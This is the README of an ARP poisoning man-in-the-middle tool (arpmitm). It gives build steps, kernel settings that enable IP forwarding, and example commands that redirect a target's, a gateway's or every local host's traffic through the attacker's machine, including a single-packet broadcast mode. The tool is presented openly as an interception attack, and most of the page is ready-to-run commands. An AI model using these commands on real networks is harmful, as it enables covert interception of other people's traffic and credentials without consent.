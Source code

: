 # ARP Man-in-the-Middle

A tool to redirect hosts on a local network to your own computer (to intercept the traffic - aka ARP poisoning).  

Direct Download: [https://github.com/hackerschoice/thc-arpmitm/tree/master/releases](https://github.com/hackerschoice/thc-arpmitm/tree/master/releases)

**Install:**
```sh
./configure --enable-static \
&& make all
```

Setup:
```sh
echo 1 >/proc/sys/net/ipv4/ip_forward
echo 0 | tee /proc/sys/net/ipv4/conf/*/send_redirects
iptables -L FORWARD -vn
```

**Example 1:**

Redirects all traffic between the target '10.0.1.111' and the Internet through us.
```sh
arpmitm -t 10.0.1.111
```

Longer version doing exactly the same:
```sh
arpmim -v 00:02:13:37:73:50 10.0.1.254:11:11:22:22:33:33 10.0.1.111:44:44:55:55:66:66
```

**Example 2:**

Tell the gateway (10.0.1.254) to redirect all traffic destined for .111 and .222 via us (00:02:13:37:73:50). Traffic from .111/.222 towards the gaterway is _not_ redirected (-A).
```sh
arpmim -v -A 00:02:13:37:73:50 10.0.1.254:11:11:22:22:33:33 10.0.1.111 10.0.1.222
```

**Example 3:**

Use 1 broadcast packet to tell *everyone* that 10.0.1.254 is us.
```sh
arpmitm 00:02:13:37:73:50 255.255.255.255 10.0.1.254
```

**Example 4 the bold:**

Redirect all local traffic between the 4 hosts through us.
```sh
arpmitm -A 00:02:13:37:73:50 255.255.255.255 10.0.0.1 10.0.0.2 10.0.0.3 10.0.0.4
```

**Features:**
- Auto-Mode
- Broadcast Mode: Send 1 ARP-broadcast to ALL hosts and redirect ALL hosts with a single packet (be warned!)

**Supported Platforms:**
1. Linux
1. MacOS
1. FreeBSD

**Changelog:**  
2000 Internal team-teso release by xdr/skyper  
2001 Leaked to the public  
2020 Resurrection. Portability and added AUTO-MODE for beginners.  
2040 stay tuned!!!  

shoutz :+1: #oscar, ADM

